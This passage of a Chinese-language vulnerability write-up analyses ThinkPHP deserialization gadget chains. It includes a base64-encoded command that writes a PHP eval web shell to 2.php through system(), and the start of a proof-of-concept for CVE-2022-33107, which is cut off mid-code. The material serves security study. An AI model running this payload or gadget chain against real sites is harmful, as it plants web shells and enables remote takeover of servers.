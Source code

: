 ```plain
```

### 分析

这个链子也非常简单 League\\Flysystem\\Cached\\Storage\\AbstractCache 的\_\_destruct

```plain
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}
```

think\\filesystem 的 CacheStore.php 的 save () 方法:getForStorage () 方法调试多了都有经验了，这里设置的 cache 是一维数组会直接返回 cache 的值： 
\['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'\]  
最后返回 json\_encode 函数处理后的结果  
\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]  
然后进入 $this->store->set, 也就是 think\\cache\\driver\\File 的 set () 方法：创建文件目录和文件名后进入 serialize 方法这里提前设置了 $this->options \['serialize'\] 为 system 执行  
system('\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]')  
最后虽然没有返回但是命令也被执行了，成功创建文件  
我们自然可以只赋值 complete 变量，把 cache 变量设置为空数组也可以

## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12  
Poc:

```plain
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
```